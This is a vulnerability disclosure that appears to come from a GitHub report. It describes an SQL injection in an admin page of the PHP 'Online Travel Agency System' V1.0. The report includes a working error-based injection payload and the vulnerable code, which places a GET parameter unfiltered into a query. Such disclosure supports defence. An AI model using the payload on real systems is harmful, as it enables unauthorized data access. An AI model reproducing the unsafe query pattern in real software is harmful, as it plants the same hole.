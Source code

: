# [Online Travel Agency System-SQL Injection-daily_expenditure_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/daily_expenditure_edit.php?id=1`    

**[Vulnerability Location]:** Travel/admin/daily_expenditure_edit.php

**[Vulnerability Test]:**

1. payload:`id=1%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))`

   ![](../../img/20230428164149.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/daily_expenditure_edit.php

```php
<?php
$sql="select*from daily_expenditure where id=$_GET[id]";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$id =$row["id"];
	$voucher_no=$row["voucher_no"];
	$title=$row["title"];
	$description=$row["description"];
	$amout=$row["amount"];
	$date=$row["date"];
	$inserted_by=$row["inserted_by"];	 	 	 	 	
}
?>
```

The GET parameter `id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

